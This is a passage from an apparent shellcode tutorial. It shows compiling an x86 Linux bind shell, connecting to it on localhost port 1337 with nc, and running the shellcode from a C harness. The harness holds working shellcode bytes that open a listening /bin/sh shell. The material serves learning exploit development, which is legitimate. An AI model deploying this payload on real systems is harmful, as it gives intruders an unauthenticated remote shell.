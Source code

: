 ![execve](images/execve.png)

## Executing the bind shell
Then we can use the compile.sh script which I have slightly modified with the printing of the shellcode. The output will look like this:
![compile](images/compile.png)

We can directly run the compiled file and and connect to the bind shell with nc 127.0.0.1 1337 which works perfectly:

![Connect](images/Connect.png)

Also we can put the shellcode in a c program and execute it from there:
``` c
#include<stdio.h>
#include<string.h>

unsigned char code[] = "\x31\xc0\x31\xdb\xb3\x01\x50\x6a\x01\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x89\xc7\x31\xc0\xfe\xc3\x50\x66\x68\x05\x39\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xb0\x66\xcd\x80\x31\xc0\xfe\xc3\xfe\xc3\x50\x57\x89\xe1\xb0\x66\xcd\x80\x31\xc0\xfe\xc3\x50\x50\x57\x89\xe1\xb0\x66\xcd\x80\x89\xc7\x31\xc9\xb1\x02\x89\xfb\x31\xc0\xb0\x3f\xcd\x80\x66\x49\x79\xf4\x31\xc0\x89\xc1\x89\xc2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80";

void main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```